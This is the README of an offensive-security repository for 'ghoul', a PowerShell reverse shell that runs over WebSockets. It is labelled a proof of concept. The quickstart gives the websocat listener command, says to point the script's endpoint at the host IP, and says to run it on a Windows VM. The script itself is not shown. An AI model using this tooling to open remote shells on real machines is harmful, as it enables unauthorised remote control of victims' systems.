 # ghoul
Powershell reverse shell via WebSockets

> [!IMPORTANT]
> The code in this repository is a proof of concept.
> The end user is solely liable for their actions.
> Read the [license](https://github.com/lavafroth/cloakshell/blob/main/LICENSE) for more details.

![Demo](demo.png)

### Prerequisites

- [Websocat](https://github.com/vi/websocat) installed
- A Windows VM

#### Quickstart

On the host machine, spin up a listener.

```sh
websocat -s 42069 -b
```

In `ghoul.ps1`, change the IP address for the `$endpoint` variable to your host's IP address.
Now run it in the VM.

```
.\ghoul.ps1
```
